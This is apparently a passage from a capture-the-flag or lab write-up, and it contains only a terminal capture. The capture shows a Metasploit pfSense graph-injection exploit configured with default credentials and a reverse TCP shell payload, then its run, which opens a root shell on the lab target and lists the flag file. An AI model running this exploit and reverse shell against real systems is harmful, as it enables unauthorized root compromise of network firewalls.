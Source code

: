 ```

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD  pfsense          yes       Password to login with
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS    10.10.10.60      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-
                                        Metasploit
   RPORT     443              yes       The target port (TCP)
   SSL       true             no        Negotiate SSL/TLS for outgoing connections
   USERNAME  rohit            yes       User to login with
   VHOST                      no        HTTP server virtual host


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.20      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


msf6 exploit(unix/http/pfsense_graph_injection_exec) > run

[*] Started reverse TCP handler on 10.10.14.20:4444 
[*] Detected pfSense 2.1.3-RELEASE, uploading intial payload
[*] Payload uploaded successfully, executing
[+] Deleted kVlKSoCnV
[*] Command shell session 1 opened (10.10.14.20:4444 -> 10.10.10.60:31132) at 2021-12-27 14:02:34 -0500


ls -al
total 7160
drwxr-xr-x   2 nobody  wheel     512 Dec 27 14:03 .
drwxr-xr-x  12 root    wheel     512 Dec 27 12:28 ..
-rw-r--r--   1 nobody  wheel   47696 Dec 27 14:03 GW_WAN-quality.rrd
-rw-r--r--   1 nobody  wheel   47696 Oct 15  2017 WAN_DHCP-quality.rrd
-rw-r--r--   1 root    wheel    2041 Dec 27 13:39 ZYrticF
-rw-r--r--   1 root    wheel    2041 Dec 27 13:52 cqMfBchjI
-rw-r--r--   1 nobody  wheel  393168 Dec 27 14:02 ipsec-packets.rrd
-rw-r--r--   1 nobody  wheel  393168 Dec 27 14:02 ipsec-traffic.rrd
-rw-r--r--   1 nobody  wheel  588592 Dec 27 14:02 system-mbuf.rrd
-rw-r--r--   1 nobody  wheel  735320 Dec 27 14:02 system-memory.rrd
-rw-r--r--   1 nobody  wheel  245976 Dec 27 14:02 system-processor.rrd
-rw-r--r--   1 nobody  wheel  245976 Dec 27 14:02 system-states.rrd
-rw-r--r--   1 root    wheel    3683 Dec 27 11:28 updaterrd.sh
-rw-r--r--   1 nobody  wheel  393168 Dec 27 14:02 wan-packets.rrd
-rw-r--r--   1 nobody  wheel  393168 Dec 27 14:02 wan-traffic.rrd
whoami
root
ls -al /root/root.txt
```
